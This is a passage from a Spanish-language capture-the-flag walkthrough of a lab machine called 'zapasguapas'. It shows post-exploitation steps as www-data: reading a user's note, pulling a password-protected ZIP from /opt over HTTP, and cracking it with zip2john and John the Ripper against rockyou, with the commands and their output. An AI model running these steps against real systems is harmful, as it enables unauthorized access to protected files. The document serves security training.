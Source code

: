 Y si entramos al directorio del **usuario pronike**, encontramos una nota:
```bash
www-data@zapasguapas:/home/pronike$ cat nota.txt 
Creo que proadidas esta detras del robo de mi contraseña
```
Bien, esto ya es una pista.

Navegando un poco más (porque no sé la razón por la que **linpeas.sh** no me funciono), podemos encontrar un **archivo ZIP** dentro del directorio `/opt`:
```bash
www-data@zapasguapas:/opt$ ls
importante.zip
```

Para descargarlo en nuestra máquina, abrimos un servidor con **Python** en el **puerto 8080** y utilizamos **wget** en nuestra máquina para descargarlo:
```bash
wget http://192.168.1.110:8080/importante.zip
--2025-02-18 14:47:53--  http://192.168.1.110:8080/importante.zip
Conectando con 192.168.1.110:8080... conectado.
Petición HTTP enviada, esperando respuesta... 200 OK
Longitud: 266 [application/zip]
Grabando a: «importante.zip»
.
importante.zip             100%[=============>]     266  --.-KB/s    en 0s 
.
2025-02-18 14:47:53 (43.7 MB/s) - «importante.zip» guardado [266/266]
.                                                                                                                                                                                             
❯ ls
importante.zip  linpeas.sh revShell.sh
```

Ya lo tenemos, pero el problema es que sí tratamos de descomprimirlo, nos pedirá una contraseña:
```bash
unzip importante.zip
Archive:  importante.zip
[importante.zip] password.txt password:
```

Debemos aplicarle fuerza bruta con **JohnTheRipper**.

<br>

<h2 id="HashCrack">Crackeando Archivo ZIP con JohnTheRipper y Entrando al Servicio SSH</h2>

Primero tenemos que obtener el hash del **archivo ZIP** y lo haremos con **zip2john**:
```bash
zip2john importante.zip > hashZIP
ver 2.0 efh 5455 efh 7875 importante.zip/password.txt PKZIP Encr: TS_chk, cmplen=76, decmplen=71, crc=9CB8F6B5 ts=4C4E cs=4c4e type=8
```

Y ahora, utilizamos **JohnTheRipper** para crackear ese hash:
```bash
john -w:/usr/share/wordlists/rockyou.txt hashZIP
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 5 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hotstuff         (importante.zip/password.txt)     
1g 0:00:00:00 DONE (2025-02-18 14:48) 25.00g/s 256000p/s 256000c/s 256000C/s 123456..1asshole
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
Tenemos la contraseña del **archivo ZIP**.
